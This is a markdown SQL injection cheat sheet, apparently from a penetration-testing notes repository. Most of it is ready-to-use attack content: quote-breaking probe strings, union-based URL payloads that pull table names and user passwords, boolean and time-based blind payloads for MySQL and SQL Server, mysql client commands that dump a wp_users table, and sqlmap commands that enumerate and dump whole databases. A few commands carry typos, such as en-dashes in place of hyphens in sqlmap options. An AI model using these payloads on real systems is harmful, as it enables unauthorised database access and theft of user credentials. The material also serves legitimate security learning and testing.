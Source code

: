 # SQLi

SQL Injection is a web security vulnerability that allows an attacker to interfer with the queries that an application makes to its database.

It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users or any other data that the application itself is able to access.

To test SQLi, we will put special characters into the input fields and observe errors returned by the application. 

```bash
'
"
')
")
'; -- 
"; --
'); -- 
"); --
' or 1=1; --
' or 1; --
' or 'a'='a
SELECT @@version  # Determine what the database information is
```

## Manual 

```bash
 http://target/comment.php?id=1'
 http://target/comment.php?id=1 order by 6
 http://target/comment.php?id=1 union all select 1,2,4,5,6
 http://target/comment.php?id=1 union all select 1,2,4,table_name,6 from information_schema.tables
 http://target/comment.php?id=1 union all select 1,2,4,column_name,6 from information_schema.columns where table_name='users'
 http://target/comment.php?id=1 union all select 1,2,4,concat(name,0x3a,password),6 FROM users
```

## Blind SQLi

Generally occurs when an application is vuln do SQLi but it does not return an error, which makes identifying and exploiting SQLi more difficult. Concatenating strings for known good values can determine if the SQL database is directing interpreting the values we're providing.

* **Boolean based**

```bash
user' AND 1; --  # Test if value is true, if user is a valid user then it returns good
user' AND 0; --  # Test if SQLi is being interpreted, known good username but always false 0
```

* **Time based**

```bash
# MySQL

id=1-SLEEP(15)  # Resulting query (with malicious SLEEP injected).
id=1-BENCHMARK(100000000, rand())  # Resulting query (with malicious BENCHMARK injected).

# SQLServer

id=1; WAIT FOR DELAY '00:00:15'  # Resulting query (with malicious SLEEP injected).
id=1; IF SYSTEM_USER='sa' WAIT FOR DELAY '00:00:15'  # Resulting query (verify if user is sa).
```

## Union Attack

 _When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the `UNION` keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack._

 _The `UNION` keyword lets you execute one or more additional `SELECT` queries and append the results to the original query. For example:_

 _`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`_

 _This SQL query will return a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`_

 For a `UNION` query to work, two key requirements must be met:

*  **The individual queries must return the same number of columns.**
*  **The data types in each column must be compatible between the individual queries.**



* [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

## Tools

### mysql cheat sheet

```bash
# Built-in mysql tools
mysql -u root    # Attempt to connect to db as root user, default is no pass
mysql -u root -p -h 10.10.10.1    # Connect to db at host 10.10.10.1 as root, prompts for password
mysql -u user1 -puser1pass    # Connect to local db. NOTE no space after '-p' for password!
mysqlshow -u something -psomethingpassword    # Again, NO SPACE AFTER -p FOR PASSWORD

# Inside the mysql shell
show databases;          # List all dbs on server  
use wordpress;           # Use a specific db
show tables;             # Show all tables for current db
describe wp_users;       # Show columns for a specific table
select * from wp_users;  # Dump all records from a table
```

### sqlmap

```bash
sqlmap -u "https://target.com/dir" # Without GET parameter
sqlmap -u "https://target.com/dir.php?id=1"  # With GET parameter

sqlmap –u "http://target.com/login.php" –data 'user=brun0&pass=something' # POST request with data
sqlmap -u "http://target.com/dir.php?id=1&Search=Submit" -p id # Testing id parameter

```

* **If we find SQLi in the target website then we can use the following commands.**

```bash
sqlmap -u "http://target.com/login.php?id=1" --dbs       # Lists all dbs on the host
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME --tables    # Lists all tables inside all dbs on host
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME -T TB_NAME --columns # List all columns
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME -T TB_NAME -C "col1,col2" --dump # List info from columns
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME --dump # Dump the database
```

## References

* [https://tools.kali.org/vulnerability-analysis/sqlmap](https://tools.kali.org/vulnerability-analysis/sqlmap)
* [https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/sql-injection](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/sql-injection)

